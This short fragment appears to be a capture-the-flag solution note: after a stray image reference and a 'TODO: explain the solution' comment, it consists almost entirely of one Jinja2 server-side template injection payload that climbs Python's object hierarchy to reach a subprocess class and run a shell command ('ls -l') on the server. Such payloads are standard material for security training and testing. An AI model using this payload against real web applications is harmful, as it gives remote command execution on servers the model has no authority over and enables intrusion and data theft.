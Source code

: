 # TODO: explain the solution lmao

{{''.__class__.__mro__[1].__subclasses__()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}